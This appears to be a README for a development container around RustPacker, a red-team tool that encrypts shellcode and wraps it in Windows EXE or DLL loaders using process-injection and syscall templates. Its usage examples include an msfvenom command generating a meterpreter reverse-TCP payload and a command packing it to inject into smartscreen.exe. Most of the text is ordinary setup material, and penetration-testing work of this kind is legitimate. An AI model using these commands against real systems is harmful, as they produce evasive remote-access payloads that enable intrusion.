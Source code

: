 # RustPacker DevContainer Setup

This DevContainer configuration provides a complete development environment for RustPacker with all necessary dependencies pre-installed.

## Features

- **Rust Development Environment**: Latest Rust toolchain with cross-compilation support
- **Cross-compilation Support**: Configured for Windows target (`x86_64-pc-windows-gnu`)
- **Essential Dependencies**: All required libraries and tools pre-installed
- **VS Code Integration**: Rust extensions and optimal settings configured
- **Development Tools**: Cargo plugins, debugging tools, and utilities
- **Helpful Aliases**: Quick commands for common RustPacker operations

## Quick Start

### Option 1: Using VS Code DevContainers (Recommended)

1. **Prerequisites**: 
   - Install [Docker](https://docs.docker.com/get-docker/)
   - Install [VS Code](https://code.visualstudio.com/)
   - Install the [Dev Containers extension](https://marketplace.visualstudio.com/items?itemName=ms-vscode-remote.remote-containers)

2. **Setup**:
   ```bash
   git clone https://github.com/Nariod/RustPacker.git
   cd RustPacker
   ```

3. **Open in DevContainer**:
   - Open VS Code in the project directory
   - Press `Ctrl+Shift+P` (or `Cmd+Shift+P` on Mac)
   - Type "Dev Containers: Reopen in Container"
   - Wait for the container to build and setup to complete

### Option 2: Using Docker Compose

```bash
cd .devcontainer
docker-compose up -d
docker-compose exec rustpacker-dev bash
```

## Directory Structure

After setup, your DevContainer will have:

```
/workspace/
├── .devcontainer/          # DevContainer configuration
├── shared/                 # Shared directory for shellcode files
├── src/                   # RustPacker source code
├── Cargo.toml            # Rust project configuration
└── setup-git.sh          # Git configuration helper
```

## Quick Commands

The DevContainer comes with helpful aliases:

- `rp [args]` - Run RustPacker with arguments
- `rpbuild` - Build release binary for Windows
- `rptest` - Run tests
- `rpcheck` - Check code without building
- `rpclippy` - Run Clippy linter
- `rpclean` - Clean build artifacts
- `shared` - Navigate to shared directory
- `ws` - Navigate to workspace root

## Usage Examples

### Basic Usage

```bash
# Create a test shellcode file
echo -n -e '\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00' > shared/test.raw

# Pack with ntcrt template and AES encryption targeting notepad.exe
rp -f shared/test.raw -i ntcrt -e aes -b exe -t notepad.exe

# Build release binary
rpbuild
```

### Real Shellcode Examples

```bash
# MSFVenom shellcode
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=127.0.0.1 LPORT=80 EXITFUNC=thread -f raw -o shared/msf.bin
rp -f shared/msf.bin -i syscrt -e aes -b exe -t smartscreen.exe

# Custom output location
rp -f shared/payload.raw -i ntapc -e xor -b dll -o shared/custom_name.dll
```

## Available Templates

- **ntcrt**: NT API remote thread injection
- **ntapc**: NT API APC injection  
- **syscrt**: Indirect syscalls remote thread injection
- **wincrt**: Windows API remote thread injection
- **ntfiber**: NT API fiber execution
- **winfiber**: Windows API fiber execution
- **sysfiber**: Syscalls fiber execution

## Encryption Options

- **xor**: XOR encryption
- **aes**: AES encryption

## Output Formats

- **exe**: Executable file
- **dll**: Dynamic link library

## Development Workflow

1. **Edit Code**: Use VS Code with Rust analyzer for intelligent code completion
2. **Test Changes**: Use `rpcheck` or `rptest` for quick validation
3. **Build**: Use `rpbuild` to create Windows binaries
4. **Debug**: Use integrated debugger or `cargo run` with arguments
5. **Lint**: Use `rpclippy` for code quality checks

## Troubleshooting

### Git Configuration
If you need to configure Git for commits:
```bash
./setup-git.sh
```

### Permissions Issues
If you encounter permission issues with the shared folder:
```bash
sudo chown -R vscode:vscode /workspace/shared
```

### Rebuilding Container
If you need to rebuild the container:
- In VS Code: `Ctrl+Shift+P` → "Dev Containers: Rebuild Container"
- With Docker Compose: `docker-compose down && docker-compose up --build -d`

### Cross-compilation Issues
If cross-compilation fails, verify the target is installed:
```bash
rustup target list --installed
# Should show: x86_64-pc-windows-gnu
```

## VS Code Extensions Included

- **rust-analyzer**: Rust language server
- **CodeLLDB**: Native debugger
- **crates**: Cargo.toml management
- **Even Better TOML**: Enhanced TOML support
- **Code Runner**: Quick code execution
- **Hex Editor**: Binary file viewing
- **JSON**: JSON file support

## Performance Tips

- Use volume mounts for cargo cache (already configured)
- Keep frequently used files in the shared directory
- Use `cargo check` for quick validation during development
- Use `cargo clippy` to catch common issues early

## Security Notes

This DevContainer is designed for security research and penetration testing. The generated binaries are intended for authorized testing only. Always ensure you have proper authorization before using these tools in any environment.

## Contributing

To contribute to this DevContainer configuration:

1. Test changes in your local environment
2. Update documentation as needed
3. Submit pull requests with clear descriptions
4. Follow the existing code style and structure

## Support

For issues with the DevContainer setup:
- Check the troubleshooting section above
- Review VS Code DevContainer documentation
- Open an issue in the RustPacker repository

For RustPacker-specific issues:
- Check the main project README
- Open an issue with detailed reproduction steps
- Join the discussion in the project's Discord server